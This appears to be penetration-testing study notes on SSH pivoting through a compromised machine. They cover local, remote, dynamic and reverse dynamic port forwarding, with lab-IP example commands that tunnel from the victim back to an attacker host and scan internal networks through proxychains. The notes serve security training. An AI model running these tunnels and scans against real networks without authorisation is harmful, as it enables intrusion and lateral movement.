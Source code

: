 # SSH Port Forwarding

## Local Port Forwarding

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```text
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot  point.

{% hint style="warning" %}
**If you are targeting a specific protocol like SMB, all port numbers should be the same**.
{% endhint %}

#### example for smb port 445:

```text
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```text
nmap  127.0.0.1 -p 445
```

## Remote Port Forwarding

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port \(ssh client\).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports \(above 1024\).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host \(compromised target\).

```text
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here. 
{% endhint %}

example for MySQL service port 3306:

```text
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```text
nmap -sV 127.0.0.1 -p 2221
```

### Secure Remote Port Forwarding

In situations when you dont trust the middle host \(compromised pivot machine\) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```text
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```text
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](../../.gitbook/assets/image%20%28265%29.png)

#### This entry allows the owner of the private key \(middle host\) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```text
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## Dynamic Forwarding

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```text
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy \( -N -D \) on our attacker machine on TCP port 8080 \( 127.0.0.1:8080 \), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```text
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file  `/etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](../../.gitbook/assets/image%20%28264%29.png)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $\(HOME\)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```text
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

## Reverse Dynamic Forwarding

#### as of OpenSSH version 7.6 \(Released late 2017\) SSH clients may generate dynamic reverse tunnels accessible to the server they connect to. What’s really cool is that you don’t need to update your server to version 7.6 before this trick will work. As long as the client supports it, the client enforces it when it completes the connection.

run this command on the compromised remote system \(this looks like the remote port forwarding but by not specifying a host after the port the ssh client will create a socks proxy on attackers system\):

```text
ssh -f -N -R [attackers port] -o "UserKnownHostsFile=/dev/null" -o "StricktHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa   user@[attackers IP]
```

you can check if the port is open on attackers system:

```text
netstat -tupln
# look for sshd with local address of 127.0.0.1:[attackers port]
```

​​now edit proxychains configs in /etc/proxychains.conf and add the port:

```text
socks4 127.0.0.1 [attackers port]
```

now a stable tunnel is established and we can use proxychains for enumeration and connection:

```text
proxychains nmap -sT -Pn [target local IP]
```

{% hint style="warning" %}
SOCKS proxy needs full TCP connection, we cant use other scanning techniques, ICMP can not get through either. use -Pn option.
{% endhint %}



